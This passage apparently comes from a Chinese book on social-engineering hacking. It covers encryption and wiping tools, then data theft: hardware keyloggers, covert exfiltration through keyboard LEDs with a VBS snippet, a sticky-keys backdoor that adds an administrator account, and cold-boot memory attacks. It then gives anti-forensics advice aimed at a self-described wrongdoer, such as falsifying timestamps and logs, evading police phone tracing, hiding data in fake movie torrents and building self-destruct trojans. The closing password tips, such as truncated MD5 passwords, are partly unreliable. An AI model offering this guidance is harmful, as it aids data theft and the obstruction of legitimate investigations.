我想与你分享在加密技术中获取五星级评价的三款加密软件，尽管它们采取的加密算法并无相差之处，包括使用了 DES（64bit）、Triple DES（128bit）、AES-Rijndael（256bit）、ARCFour（2048bit）、Blowfish（448bit）等加密算法，但这三项工具都有独特的形式对文件进行加密，除了采取密码以外还使用了 key file 方式进行验证，拥有特有的虚拟磁盘加密方式。

### 一、AxCrypt

该软件安装后会集成到资源管理器中，你只需在要加密的文件上按鼠标右键并选择“AxCrypt”进行加密即可，它允许你使用 Key file 作为解密文件，类似于 EFS 中的私钥，并使用了 AES-128 与 SHA-1 算法与内存处理，可对文件进行擦除（无法恢复），如图57。


图57

### 二、Cryptainer LE

该软件采用了 AES-128 位加密，允许你在本地与外部存储设备划分一个空间创建“容器”，即一个加密的虚拟磁盘，你放置的文件都会自动加密存储。若要访问，需要使用设置的密码登录 Cryptainer LE，关闭后则所有的文件不可访问。此外，它能创建自解密的 exe 文件通过电子邮件发出，如图58。


图58

### 三、TrueCrypt

这是一款免费开源的绿色虚拟加密盘加密软件，不需要生成任何文件即可在硬盘上建立虚拟磁盘，用户可以按照盘符进行访问，所有虚拟磁盘上的文件都被自动加密，需要通过密码来进行访问。TrueCrypt 提供多种加密算法，包括：AES-256、Blowfish（448-bit key）、CAST5、Serpent、Triple DES 和 Twofish，如图59。


图59

#### 7.5.4 逻辑型文件擦除技术

在我们很早的时候就知道，计算机中的一切数据都是以 0101 作为表现形式，你不必在意 Linux 的 ext2、ext3、LVM、RAID 与 Windows 的 FAT32、NTFS 等文件系统，不管你计算机中有怎样的机密信息文件，只要打开并往其中填充 00 或 FF 再删除，你的文件便无法恢复，数据擦除的技术原理也就是如此。

为什么要用到数据擦除技术呢？你在操作系统上简单的文件删除操作并不是真正地销毁数据，哪怕是按下了 del、shift+del 与 format 操作，这只是在数据的存储区域做了一个标记。如果你不想让别人恢复你的数据，查看其中的信息，这就需要用到文件擦除技术。

我们如何完整地从硬盘中擦除文件的痕迹呢？可以使用专门的擦除工具 Eraser，v5.87 beta1 自动擦除，或手工使用 WinHex 来擦除。

Eraser 是怎样的工具呢？它支持最高的 Gutmann 算法 35 次擦除，同时还内建了符合美国国防部 U.S. DOD 5220.22-M 标准的 U.S. DOD 5220.22-M（C and E）擦除算法，可以彻底防止软件和硬件恢复工具对文件的恢复。

下面我们来看如何用 Eraser 彻底删除桌面的一个软件程序 Rootkit_Detective.exe。Eraser v5.87 beta1 安装后会扩展到资源管理器中，对文件的删除操作很简单。

在要删除的文件上按鼠标右键，选择“Erase”后会弹出确认框，确定后便自动进行 35 次擦除进行彻底删除，如图60。


图60

同样，我们还能手工用 WinHex 擦除数据，首先用 WinHex 打开 Rootkit_Detective.exe 程序，从“编辑”菜单栏选择“填入文件”，在弹出的“填入文件”对话框中提供了多种数据覆盖方式，这里我选择了随机字节填充（你选择填 0:0 也可以），然后确定即可擦除内容了，如图61所示。


图61

#### 7.5.5 物理型数据破坏

说到物理型数据，读者们了解多少呢？其实主要就是说的数据载体，比较常用的就是硬盘、U 盘（说详细一点还包括 MO、ZIP、光盘、PDA、SIM 卡等）和磁带吧。处理它们的方法就是搞破坏，使数据完全无法读取出来，免遭发现与泄露。当然，你得确定不再使用这些数据……

怎么来有效地处理它们呢？你可不能学习美剧《Prison Break》中 Michael Scofield 将硬盘从窗口丢入河中来处理数据，同时也不推荐你把硬盘往地下砸，因为目前科技的发达，这样做看起来并不保险了。我建议你在保持物理存储设备的完整性前提下使它们停止工作以及无法读取数据。

我们都知道，计算机由不同组件组成，即基于约翰·冯·诺依曼设计的体系：运算器、控制器、存储器、输入和输出设备。我们要使存储器组件无法读取数据，可以破坏其核心部件——盘片。要怎么破坏呢？当然只有先把它们拆开。

### 硬盘：破坏盘片

现在一般常用的硬盘都是由盘片、磁头、盘片主轴、控制电机、磁头控制器、数据转换器、接口、缓存等几个部分组成（如图62），要进行物理型数据破坏可以把硬盘拆开，直接使用硬盘的强磁铁划过盘片，或把盘片调个头再运转。这样会出现什么有趣的现象呢？


图62

### SIM 卡：输错 PIN 码、磁化为数据存储器，我们可以将卡插入手机后尝试输入错误的 PIN 码，这样它就会自行锁死，相关数据也就无法正常读取了。接着再拿强力磁铁在 SIM 芯片上绕几圈，或弄个电源线插头接在芯片上，让它短路，卡就无声无息地报废了。


图63

破坏其他外部存储设备的方法大同小异，只需使存储数据的核心部件停止工作即可。例如 U 盘的核心是 Flash 闪存颗粒，你可以把 U 盘接到 25V 以上的电源使其过载短路，或者用最“保险”的方法：用铁锤将芯片砸碎，越碎越好，成粉就更好了。如果是磁带，就直接用火焚烧吧。不管怎么说，物理型数据的破坏就是使其载体的核心部件罢工即可，要试图恢复是难于登天的。

### 7.6 数据窃取的方式

在前面几章我们已经看到如何利用社交工程获取敏感信息，包括安装窃密软件及使用监控性数码设备来获取信息，不过这些信息的获取方式都处于被动状态。如果有条件接触信息的物理设备，包括登录系统、出入数据库服务器房间、进入网络布线中心等，数据窃取的空间就很大。但若接触不到，就得设法说服企业的内部人员，让他们使用你动过手脚的工具及软件，哪怕是一个 U 盘、鼠标、键盘、显示器都能充当数据窃取的工具。

我曾经听电信、移动营业厅的客服人员使用极专业而友好的语气告诉我：“客户先生您好，我们公司有规定，计算机上不能使用客户您的 U 盘查看信息。”但你真正地知道这句话的意思是什么吗？你可以这样翻译：“按照公司的规定，内部网络的计算机一律不允许使用外人的存储设备，而只有公司的技术人员有完整的权限，仅能使用公司声明的工具或自己的东西。”嗯，数据被窃取的机率很大！

#### 7.6.1 Ghost：磁盘克隆

GHOST 是 General Hardware Oriented Software Transfer 的缩写，可译为“面向通用型硬件系统传送器”；通常称为“克隆幽灵”，是美国赛门铁克公司推出的一款出色的硬盘备份还原工具。对于数据取证人员来说，常常使用它来克隆需要进行处理的系统到其他主机进行研究分析。

在实际的操作中，Ghost 软件被刻录在一张启动盘中，你要保证系统允许使用光盘引导，并携带一块大容量的外接硬盘。

这里以 Symantec Ghost 11.0 进行演示，新版本已经能够处理 NTFS 文件系统的克隆，并有命令行与 GUI 界面两种选择，操作起来都很简单。下面，我们来克隆 F 分区镜像到 H 分区。运行 ghost32.exe 程序后会出现可选菜单，用鼠标依次选择：“Local”-“Partition”-“To Image”，这时会弹出对话框询问选择哪块硬盘。我们只有一块硬盘，选择它后再点击“OK”，如图64。

接着弹出对话框让你选择克隆哪个分区，我选择了 E 分区；点击“OK”后会弹出选择镜像文件 .GHO 的保存位置。我保存到 H:\QQ\3DShow 目录中，如图65。


选择好 .gho 镜像文件的保存位置后，会询问你的压缩方式，选择“Fast”。至于其他后续参数，一律选择“Yes”即可，如图66。


后续的工作是，将创建的 .gho 镜像文件移动到外部扩展存储设备中（移动硬盘），并用 Ghost 浏览器软件打开 .gho 文件分析与提取敏感信息。

#### 7.6.2 Recover：数据恢复

没有使用专门的工具对数据进行彻底删除时，数据仍然存在于磁盘中，只要没有新的数据覆盖掉它所存储的位置，便可用数据恢复软件对数据进行恢复。

下面介绍用数据恢复软件 Final Data 2.0 OEM 来恢复 H 盘中的数据。首先安装完 Final Data；然后将 H 盘中的部分文件删除，再运行 Final Data 进入主界面。

点击“文件”菜单下的“打开”，在弹出的“选择驱动器”选项中选择要恢复数据的分区 H，这时软件自动扫描分区根目录，如图67。


根目录扫描完后，Final Data 询问选择“完整扫描”还是“快速扫描”。完整扫描是更为详细地找回丢失的文件；另外，分区容量越大，扫描用时就越长。18GB 的分区我用了 3 个小时才扫描完成，汗……如图68。


### 7.6.3 键盘与鼠标的残劫

还记得前面的一句话吗？在隐私泄露那一章——任何的数码设备稍加改装都能变成无法防范的间谍工具。你的手表、信用卡、手机、U 盘……变成监控物品很容易，毫无疑问的是，电脑的整个部分就是间谍工具！你知道，它们彼此间都需要通信、发送信号、接收信号、数据缓冲，而我们便是在苹果中途跌落的一瞬间将其接住，然后完好无损地再让它掉下。哪一天你不小心用手机毁坏了你的笔记本电脑，千万不要吃惊！

说到键盘与鼠标，你知道它们的接口吗？如果你看到的是一个圆形小口，那就是典型的 PS/2 接口；若是方形的，那就是新式的 USB 接口，数据偷窥正与它们有关。

PS/2 采用了双向同步串行通信协议，两端通过时钟脚同步，数据脚交换数据，一头连接主机，另一头连接键盘；键盘所发送的数据一律被 PS/2 连接器截取，如图69。

如果键盘和鼠标的接口不是 PS/2，而是 USB 的话，那么连接器内所截取存储的数据容量可达 GB 级，这几乎满足了最基本的口令记录。而键盘与鼠标的操作信息，包括登录系统、撰写邮件、IM 聊天等都会被截取到其中。如图70，这是 KeyGhost 公司生产的连接器。


国内汉王科技有限公司开发过拥有移动存储功能的 USB 鼠标，你不妨理解成鼠标式 U 盘，或 U 盘式鼠标。这种连接器大家可以从 KeyKatcher.com 和 KeyGhost.com 网站上查询详细资料，国内一般在大城市也有销售，eBay 与淘宝网也有相关产品出售；如图71。


图71

- PS/2 接口统统被锁在里面，甚至键盘鼠标都拔不下来，仅能通过 HTTP 代理访问 WEB。

这样的情况，数据如何窃取出来呢？老实说，我没有找到方法，但国内安全焦点核心成员 tombkeeper 提出了 4 种方案，分别如下：

- 1. **声卡**  
声卡也能进行数据传输，前提是耳机与话筒插口存在，方法是采用普通的音频线在两台机器间建立 TCP/IP 连接。我们可以先将数据调制成普通音频文件（可参考 MP3 信息隐写），并用 MP3 接到声卡进行录制，回家后再将 MP3 文件进行处理，从而分离出数据。

- 2. **PC Speaker**  
这种方法的前提是主板自带了 PC Speaker，即一个蜂鸣器，它可以发出很高频率的声波。PC Speaker 是可编程的，无论是直接的 IO 操作，还是调用 Beep()，或者用 QBasic，可以实现将文件调制的音频以声波的形式辐射出去并录制。但有两个条件：编程与保持环境安静。

- 3. **键盘灯**  
键盘灯也是可编程的，如 VBS 脚本就可以控制 CapsLock 灯的明灭，请看如下代码：

```
set WshShell = CreateObject("WScript.Shell")
WshShell.SendKeys "{CAPSLOCK}"
```

可以编程将数据的 1 和 0 转换成键盘灯的明和灭，然后用一个接收器将明灭信号再还原为数据。这种方法虽然隐蔽性很好，但需要制作接收器，且接收信号缓慢。

- 4. **光驱**  
普通光驱自然是不能刻录普通刻录盘的，但能不能刻录特制的光盘呢？譬如刻录只需较低温度即可引起变化的染料来制作的光盘。这种低温染料光盘的寿命可能很短，但是可以把数据带出来。当然，这只是我的一个想法，完全没谱，因为没条件去检验。

进行 BIOS 放电可清除密码，但现在有些品牌电脑都内置了可信赖平台模块（TCPA）的安全芯片，此芯片不会在放电时清除密码，但碰上有毅力的攻击者，他会用另一块原芯片代替。

就算我们很幸运地总算进入加了复杂密码并打了补丁的 Windows XP 系统登录界面，还得看看早期的输入法漏洞是否有用。

现在有个新的利用方法：即利用 cmd.exe 程序来替换粘滞键程序绕过系统添加管理员账号。前提是你要准备好一个引导盘或是 USBoot 来执行替换命令，具体利用方式请参考“黑手”期刊文章《记一个类粘滞键后门的发掘与利用》。

最后一种方法是……启动系统，然后用冷冻剂将内存条冷冻，以延长数据存储时间，在 10 分钟内移入新环境读取内存密码及数据。

这个方法由美国普林斯顿大学研究人员发现，通过冷冻计算机的记忆芯片，就可轻易破解包括微软及苹果推出的常用加密程序。尽管这个说法有点耸人听闻，但方法确实可行，如图7.2。


图7.2

令人高兴的是，国外的 McGrew 制作了一个 RAM dumping 程序，可以用 USBoot 来恢复内存中的数据；实际操作过程有些烦琐，他的网站上已列出了详细的操作方法：http://www.mcgrewsecurity.com/projects/msramdmp/

### 7.7 数字反取证技术对抗

对于敏感数据，我们在前面提出了多种处理方式，包括隐藏、隐写、加密、破坏、恢复，都提出了明确的对抗方式。不过，我还需要一个行为迫使取证专家面临障碍，那就是——反取证技术。我们可以构造一个框架，模拟取证专家们是如何查找及处理敏感数据，以确保计算机中的行为与痕迹无法察知。

你知道玩五子棋的秘诀吗？首先，你要摆两粒棋子连在一起，看对方是否跟随。如果没有，你就得留心他每粒棋子所隐藏的陷阱，并设下假象。如果对方跟随你的棋子，你就只管攻击，这便是五子棋最典型的玩法。

然而呢，还有最聪明的方法，这是以对抗任何有经验的对手，那就是，在你落下一粒棋子的时候，你要假设对方有三个可能落子的位置，并依照最有可能胜利的位置进行布局。反取证技术便是如此，熟悉取证专家们的操作步骤，并把其中重要的环节击破。

#### 7.7.1 主机数据信息核查

我们所知道的核查有很多种：系统漏洞核查、网络状态核查、软件安全核查、脚本漏洞核查等等……核查，就是检查有没有漏洞，这里指的是信息核查。你泄露的敏感信息就是一个漏洞，将漏洞扼杀之前必须先检查系统。

### 7.7.1.1 CMD 命令信息核查

高版本的 Windows 平台都提供了易用的 CMD 命令，第一个命令是 systeminfo，用来查看系统主要的信息。我们留意其 OS 设置信息与时间信息即可，如图7.3。


图7.3

另一个命令是 tree，它能以图形显示驱动器或文件夹的结构，使得我们很方便地对分区中的数万文件进行核查。例如我要查看本地 D 盘，可使用命令：`tree d:\ /f |more` 在命令行界面分屏检查；也可以将信息打印到记事本中，命令：`tree d:\ /f >>tree.txt`，如图7.4。


图7.4

### 7.7.1.2 法证工具信息核查

有些取证工具可以依照某些关键字（如 HTTP、Cookie）自动扫描驱动器中的敏感信息，如记事本中有一段网址或是邮箱地址都会被扫描出来。

数字取证工具 X-Ways Trace 2.5 能做到这一点，包括可以从 Cookie、HTTP、JS、文件打开记录中进行扫描搜索。使用方式很简单，运行软件进入主界面，点击“File”菜单下的“Open Disk”，在弹出的对话框选择 C 分区进行全面扫描，如图75。

扫描一会后，从 C 盘获取到包括 URLs、redirections 等信息，同时支持对非系统分区扫描，如图76。


图75


图76

另外，物理信息的核查可使用 SIV（System Information Viewer），这个令人恐怖的软件支持 System、Machine、Sensors、USB Bus、Network、SMART、Volumes、Modems、PCI Bus 硬件信息查询，如图77。


图77

#### 7.7.2 逃脱通信网络跟踪

通信，即数据信号间传输；网络，由一个广阔的信息结点组成。这其中包括电视网络、电话网络、计算机网络等。这庞大的网络给每台接入的终端都分配标识、号码、IP，而取证人员正是跟踪你使用的号码或 IP。他们有了你的手机号码后，会从运营商处查询你的物理地址；甚至无须你的手机密码，直接要求手机运营商出示你详细的通话记录、短信清单。

### 7.7.2.1 安全电话通信技巧

我们看到许多电视剧中，警察通过监听与绑架者的通话，可以用相关设备追踪出绑架者的具体位置。在典型的拨打电话交流时，通话内容并不重要，而是不要泄露电话号码，这里给出几种小技巧进行说明。

### 一、用网络电话替代

网络电话是安全性极佳的通话方式，VOIP 语音服务默认是将通信数据加密传输的，而且你不需要填写真实信息来购买 VOIP 服务，推荐使用 Skype 网络电话。有 Gmail 账户吗？你可添加 service@splinter.net 为好友，使用 Gtalk 拨打几分钟的免费电话，如图78。


图78

### 二、使用可改来电显示的网络电话

似乎有相关的软件可安装到智能手机中，具体有待考证。

### 三、SMS 短信替代

如果真的监听一个号码就能查出指定的位置，那么不妨将信息通过短信来发送，建议使用预付费的手机。

### 四、小心固定电话

随着手机的广泛流行，固话使用者少了，但偶尔还会被使用。但你在拨完一个电话后，建议挂机前再乱输几个号码。为什么这样做？小心有人按下“重拨”键来窥探你之前所拨出的号码。

在我和一位司法单位任职的朋友交谈中，他告诉我，除非重要事件；他们根本无需监听，而是联系通信运营商（比如中国移动）直接定位具体位置，也就是 GPS 技术，窃听也是易于实现。

不知你是否看过以下新闻：

> “中国移动总裁王建宙在瑞士达沃斯世界经济论坛上表示，中国移动把有关用户的资料在需要时告知警方，警方可以通过这些资料找到用户，而用户对此并不知情，也不受到任何法律保护。”

> 报道称，当王建宙说出这番话时，与会者感到脊背发凉，但王建宙在会场上却毫无忌惮地表示：‘你是谁，你在哪里，我们全知道’。

这就说明，利用 SMS 短信仍不能保障通信安全，专门的机构通过一个号码便能定位你具体的位置。随卫星技术的进步，定位的精度也越来越高。在做一些事情时，千万不要使用真实号码进行电话拨打，那是很愚蠢的行为。

### 7.7.2.2 无法湮埋网络信息

虽然不知道取证专家们是否也对社会工程学的信息搜索感兴趣，我们也有必要清除网络中的“脚迹”。如果不慎在 BBS 中泄露了真实住址、姓名、联系方式，以及一切在网络上与自己相关的信息，可采取下列几种方式尽量地消除网络痕迹。

### 一、注销服务

如果你注册有 IM、邮箱、博客、相册、播客、论坛等相关网络服务，可以联系管理员向他们申请注销账户，尽量有诚意地说服他们。有的服务可在长期不登录的状态下自动锁定或删除，这是一个不错的人性化功能。

### 二、扭曲信息

在原有的敏感信息基础上，对信息进行删减、增加、扭曲原意。如果关键字是“lizaiib”，你可以处理成“初中 A 班来一个很傻很天真的 lizaiib”，然后将处理的信息再次发布到搜索引擎喜欢去的网站上，如 cnbeta 的评论留言中、百度知道的提问等。

### 三、删除

敏感信息没有大范围传播时，可要求网站管理员、搜索引擎删除记录。

### 四、泛洪

使用自动群发器自动发送对关键字的扭曲信息，如论坛群发器、贴吧群发器、博客群发器等。

#### 7.7.3 击溃数字证据

事实上，所谓的“数字证据”并不能真正充当司法证据。怎么说呢？因为硬盘中的数据具有可篡改、复制、删除的特性，它不像数字签名一样无法轻易弄成相同的，这一点与人的指纹和 DNA 类似。这就好像，人的脸可以整容成一模一样，但指纹与 DNA 却不能弄成一样的。击溃数字证据很简单，只需利用它本身的特性来进行反取证。

### 7.7.3.1 错误的时间，正确的攻击

实质就是制造系统假象，使产生的证据不具有法律效力。即错误的系统时间、混乱的安全审计、错误的文件所有者、更改 BIOS 芯片信息、错误的系统环境等，数据核查一样判定为“伪证据”。

你知道法律声明证据的特性吗？那就是——不可否认性！那么计算机的“伪证据”能有不可否认性吗？有的。这就要求取证专家在“伪证据”的前提上使用新证据来推翻错误的证据，即你操作与修改的痕迹。但很抱歉，只有傻瓜才会保留痕迹。

对于系统假象，我们再详细说说。将系统正常时间调为错误时间，例如 2006 年；不论你的文件操作记录，还是黑客攻击活动，所留下的相关证据都是错误的。安全审计就是系统的日志记录，这包括应用程序、安全性、系统等日志。我的方法是，开启全部策略或是部分策略，再制造错误操作记录，包括账户登录状态、网络访问状态等。对于文件，一定要修改掉敏感的文件名，以防止侦查者利用关键词进行信息搜索，如前面的取证工具便是自动扫描标记为“HTTP”的关键字。

还有一种典型的证据，那就是 IM 聊天记录，你要对与你聊天的对象进行区分，并使用不同的隐喻语言。例如，对自己熟悉的人直接使用约定的内部术语进行交谈；而对于陌生而偶有敏感性的人，则使用隐喻、不确定性、模糊的言辞。

聊天记录的实际电子证据就是指你说话的“意义”，如你在 MSN 上和人说：“我明天 8 点到广东去”；结果第三天你确实在广东，这份聊天记录就有意义了。相反地，无意义的、不全的聊天证据是无效的。你可将原话改为：“我大概上午去，你在火车站接我”，这样，只有对方知道原意，而对于取证专家来说，他们虽然能猜出个大概，但当事人能在此基础上列出大量不可信、也无从考证的回应，以使证据无效。

## 第七章 反侦查技术的对抗

### 7.7.3.2 数字证据藏在哪里了

如果你捡到100万将会怎么处理？作为一个坏人的你一定很激动，甚至心绪惶惶不安，到底是拿回家呢？还是存到银行？其实方法很简单，送给一个陌生人。钱和数据一样，始终都要经过人的手来处理；敏感数据放置在可控制的地方是不安全的，包括你的计算机中、外部存储设备中。而如果你都不知道数据在哪里及如何保存的，那么又有谁能找到你的数据呢？

我的建议是，把数据放在广阔的网络中，放在几千万台的计算机中，而只需记得寻找的线索即可。你会使用BT、P2P、eMule软件吗？会用它们制作一个种子吗？方法很简单，寻找最新将上映的电影，再将你的数据经过层层加密并更改扩展名，然后把它们放在一个目录中制作成BT种子，最后将种子发到流量大的门户站与论坛上。受到新电影的吸引，很多的网友将会去下载，他们的电脑都充当你的数据存储空间，他们永不会去怀疑另一个打不开的文件。而当你想找回你的数据时，仅需搜索你发布的电影名并下载。

如果重要数据是个庞大的数据库的话（即超过10GB），那你得让专门的保管机构替你保管。建议选择美国与韩国的服务器，将数据加密并与他们签订保密协议。10GB以下的数据可以选择网络上免费的存储空间，但不要放在国内，最好能够放到国外，这样会增加取证难度。

### 7.7.3.3 部署监控与自我销毁

毫不夸张地说，你在数据自我销毁技术上玩得高超，那么取证技术便无用武之地！道理很明显：数据都没了，取证啥呢？

为增加取证难度，保险的方式是在Unix/Linux平台上搭建处理方案，这需要相关程序与工具。不过具体的工具没有前人准备，需要自己编写程序及定做特制的工具；这里说说软件与硬件上的反监控与自我销毁方式。

### 软件反监控与自我销毁

软件即程序，编写的程序要具有木马性质，在三个位置监控即可，即进程、网络、系统。

进程监控主要监视进程列表中是否有取证软件的进程，如WinHex、X-WAY及隐藏进程，一旦发现，便对数据进行自我销毁。

网络监控时，确保主机连入网络，而一旦检测到网络流量异常以及人为中断，则启动自我销毁。

系统方面主要着重于开机与关机操作，可自己编写一个小程序替换掉系统的关机功能。除了正常的关机操作，小程序要求必须在关机前1分钟内输入任意数字才关机，若检测到没有便启动自我销毁。

上面的方案看上去有点完美，其实是有很多缺陷的。在网络监控时，网络可能会遇到不可抗力的因素而中断（如停电）。但取证专家有更好的方法来对付这些方法，比如直接切断电源（后备电源），并将硬盘拿到其他的平台对数据进行拷贝，以保证证据仍然存在。

利用软件方案来反监控看来靠运气的成分更大一些，而硬件反监控就从根本上杜绝数据被拷贝，甚至“尸骨无存”……

### 硬件反监控与自我销毁

自我销毁的方式有两种，一种是芯片型，二种是物理型。首先将数据核心——硬盘及整个机箱都用外壳封闭起来（有自动散热措施）；机箱外观可使用iPhone触感技术来检测机箱是否碰触了尖锐物和化学用品，并由机箱前方智能芯片控制，这块智能芯片协同开箱的密码验证。

另外，还要准备锂电池以供芯片使用，其次是在硬盘相关接口插入可编程的构件并连接智能芯片。一旦密码连续三次输错及检测到机箱外部碰触到可疑物体时，可编程的构件便被触发，损坏硬盘盘片。当然，这种芯片型的反取证方案还是很容易对付，可使用磁化或者断电的方式使其失去功效。

物理型的反监控则是技高一筹，具体可这样设计：

将硬盘与外壳紧密焊接在一起，内部的构造彼此间都要关联起来，硬盘内部的关键部件进行特殊处理，以使机箱不允许倒置、倾斜。外壳不能太硬，同时将硬盘所有接口都铅封起来，开箱验证的方式是使用物理性密码（但有个缺点，可以不断地穷举密码）。

如果有人试图使用铁制工具打开，他一定得小心，不论是震动，还是划开了一个口子，硬盘就自动报废了，数据自然也就彻底销毁。

根据以上方案，最明智的是选择物理型反监控与自我销毁的方法，实现的方式成本低，易于实现。或者说，两个方法都组合到一起，这才是完美的方案吧。

## 第八章 安全铁律

- 安全威胁触手可及
- 人员安全工程
- 服务器安全防御
- 无线网络安全缺陷与防护
- 堡垒式的物理安全
- 全局保护——风险评估
- 信息安全知识与培训
- 不可预知的安全心理学

## 8.1 安全威胁无可变

不论个人、企业、政府乃至整个走向信息化的国家，其所面临的信息安全问题是越趋严重，一方面是人的原因，另一方面是“技术报复”效应。今天我们所看到的一切，包括大量手工操作及思考行为，都让智能化技术所替代。这就像信用卡，虽然你不必随时再携带实体钱币进行购物，但它会让你花钱更快，还有可能造成隐私泄露、信息被盗等后果，我们形象地把这些行为称之为“技术报复”威胁，并且这种威胁时刻都在发生，甚至引起灾难。

我们再来谈谈来自人这一方面的威胁。为什么社会工程学攻击能轻而易举绕过防火墙？很明显，主要根源来自人对安全概念的无知和局限。

在企业安全的构建中，管理者疏忽于对主机实施完善的安全策略，甚至对内在的威胁麻痹大意，这给攻击者带来可扩充的空间。

安全威胁的另一层来自影响，典型的黑客攻击渗透你能防范多少？社会工程学师的电话拨打攻击你又能防范多少？这种组合式攻击能给国家的军事、经济、政治都带来影响，它无关你技术手段的高明，而是击溃了人的心理弱点。

很多人曾问我一个问题：“我只需按照安全策略操作便能防范被攻击了，对吗？”我说：“不！你应该时刻保持警惕，留心潜在的威胁因素。”

而我最终要说的是：安全不是永恒的概念，只能最大限度减少或降低，这样才能免受安全威胁带来的灾害。

### 8.2 人员安全工程

为什么社会工程学师将重心总是放在人的身上？人是脆弱的，且拥有无价的信息，使得绕过物理防御很容易。

人员安全是个广阔的概念，所泛指的对象是拥有信息价值的人们，同时，这是所有的社会工程学攻击最主要的信息收集动机。如无意外，我们所讨论的人员安全属于商业或政府机构等行业服务人员。然而，这不是主要的，当谁的手上拥有社会工程学师感兴趣的价值信息时，他很快就会光临你。

避免人员安全的威胁便是从人员开始：如何做好人员安全工程呢？

### 8.2.1 兔子密码场景危险

有很多安全专家都建议：密码应该长而复杂，超过8位，使用数字+字母+符号的组合方式，并且要经常更换密码。看上去确实很安全，颇为讽刺的是，那些用户会把密码抄下来！我在某些公司遇到过这样的经历，员工做事很干脆，他在A4纸上打印出全部的密码，其中就包括IM、系统、邮件等的密码；还有的呢，直接将密码写在名片大小的纸张上，然后粘贴在键盘或显示器附近。

与此相似的例子是，许多朋友在使用公用电话时，喜欢将一些信息先记录在电话附近，这是个危险行为！通话结束后，你应该清除这些痕迹，最典型的就是你所拨打过的号码。也许有些好事者会使用“重拨”键回显出你所拨出的号码，建议你在通话结束后挂机再摘机拨打一些无意义的号码，当然，直接拨打110也行啊。

社交工程通常的密码攻击方式是“找出你的密码”。人们设置密码前有时会掉入密码心理，你有没有听银行服务员告诫你，信用卡密码要设6位数？注册论坛有没有看到提示“建议密码高于8位”？这种不像限制的限制就会让你掉入密码心理。

当看到提示的信息“只需8位密码”时你会不会这样想：那些字符组合刚好8位呢？第一印象想到的是出生年月日、街道牌号，还是信用卡密码或手机号码前8位呢？通常不建议你采取这种密码形式，社会工程学师多数会利用收集来的信息，按照你的习惯猜测出最有可能的密码。

上面这种获得信息的方式很被动，聪明而有经验的社会工程学师往往采用更主动的方式来获得自己所需要的信息。他们可以冒称公司内部的网络技术员，利用所知的密码规则向你友善“提醒”，告诉你每月应该执行密码老化操作，并让你说出自己的密码，更令人“恐怖”的是，员工会接到公司“高层”拨来的电话，他利用权威直接向你索取密码。

这种心理攻击还包括互换（我帮助过你，迫于人情，你得帮助我）、一致性、社会认可等，令人防不胜防，多数员工会在这样的情形下遭受到隐藏攻击。

试想，做过前提信息准备的社会工程学师不但知道一切，而且任何疑问他都能轻松解答，还能提供大量可信的信息，受骗的员工会想当然地认为，这位对公司信息了如指掌的人一定是可信的，但事实绝非如此。

这种攻击很难防范，你只能坚守自己的底线，不管“网络管理员、上司主管、同事”都来询问或提醒你时，你都拒绝泄露密码，除非当面交涉，要么反复核实，保持警惕。

但国内有超过近86%的员工很难做到这一点，他们潜意识中一般不会去怀疑内部可爱的同事们（除非两者关系不好，或有矛盾），更不会拒绝可敬的上司，那可对自己相当地不利啊！要知道，我们中国人对人情很看重，所以唯一的办法就只能是保持高度警戒而对命令者进行反复核实。

如何设置一个安全且不易被攻破的密码呢？建议使用MD5的16位加密。首先选择认为有意义的字符串，然后用MD5计算工具计算出16位的加密结果，也就是16位数的密码。例如，经过MD5计算后，“lizaib”字符串加密后的结果为“42ee9ea979706b7c”，如图1。

图1

强烈建议你将加密出的16位密码记忆起来（虽然难度有些大）！如果忘记了，可使用网上在线加密：http://www.xmd5.org/Encrypt_cn.htm。如果你想更保险一些，可以使用两次MD5加密，即将加密结果“42ee9ea979706b7c”作为字符串再次加密。这样，字符串“lizaib”两次加密后的结果为“be0c1e01bcbd9490”，基本可以杜绝暴力破解。当然，自己记忆起来也相当费劲了哦。

对于计算机密码攻击的防范很容易，可以禁止光盘、U盘引导系统，并不要使用IE浏览器。

在网页登录时禁止保存密码与Cookie，以防止一些密码恢复程序恢复密码。在给邮箱、论坛、博客、IM账户设置安全提问时，强烈建议将安全提问设置为毫无意义的字符组合，例如：“@#%$'$&$%HDGDG”，但安全提问的答案一定要认真记下。千万不要使用弱智答案“123456、password、iloveyou”等字符，以防止被猜测破解。

对于密码的管理也是相当重要！千万不要将很多的网络服务使用同一个密码，你可以参考表1中的密码分级来进行管理。

| 密码级别 | 适用范围 |
|---|---|
| 重要密码（A级密码） | 系统口令、远程终端、电子邮箱、IM账号、信用卡密码、证券交易、网络交易 |
| 中级密码（B级密码） | 门禁系统、博客账户、论坛账号、VPN账号、手机密码、社交网络ID |
| 低级密码（C级密码） | 游戏账户、系统与应用软件密码、VOIP账户、BIOS密码、文档加密密码 |

一般来说，A级密码主要威胁到自身利益，因此，必须把它们设置得复杂而强大。另外，在有条件的环境下，应该使用双级验证，即密码+U盾、密码+生物识别（面容、声音、指纹等识别）。B级密码处于中级价值，可以有意义，这样方便记忆，但仍然必须单独设置！C级密码多数无关重要，这样的密码可设置成相同的，避免记忆的麻烦。但对于一些跨级的密码，虽然属于C级，但其内容属于相当重要，也有必要设置成A级密码。如用WinRAR加密重要文件，就有必要分配一个复杂的密码。

不熟悉记忆技巧的人，面对大量的密码会感觉茫无头绪，觉得很麻烦，下面我就把自己记忆密码的方法奉献给大家，希望能帮上一点忙。

### 五笔编码

即用输入法五笔码作为密码。例如：五笔码“lfoptrtmm”为文字“黑客手册”的编码，只需要记住“黑客手册”就可以了。

### 桩子编码

符号替代数字。看到键盘上第二排的数字、符号键了吗？正常情况下按这种键所输入的是数字，当按住Shift键的同时再按这些键时，输入的就是数字上的特殊字符了。例如：“!@#$%^&*()”这串字符就是按住Shift键后依次按数字“1234567890”所输入的，我们只要记忆住数字桩子，再配合Shift键就可以构造出复杂的密码。比如把“363270154”数字作为桩子时，密码便是“#^#@&)!%$”。

### 辅音字母

多个辅音字母的首字母记忆。例如：“hkshgcxgj”为“黑客社会工程学攻击”拼音首字母简写。

### 百度编码

实际就是URL编码。例如：“%B7%C7%B0%B2%C8%AB”为百度搜索字符串“非安全”生成的编码。

### 图片密码

记住图片的特性。熟悉图片常识吗？我们可以用多种方法知道图像的属性，比如像素尺寸（320×254）、图片颜色RGB（白色：#ffffff）。

我是如何记忆自己的“黑手”论坛密码的呢？新建图片大小为320×254；背景颜色为白色，图片内容为“黑客手册”；于是密码便为：320254#ffffff。忘记密码时看一眼图片就会很容易地联想起来，而别人就只是认为这只不过是一张再普通不过的图片而已。

其实，最好将上述方法组合生成复杂的密码，如果你非得写在纸上，那就用力写出来并毁掉有文字的第一张，保留有文字凹凸痕迹的第二张即可。

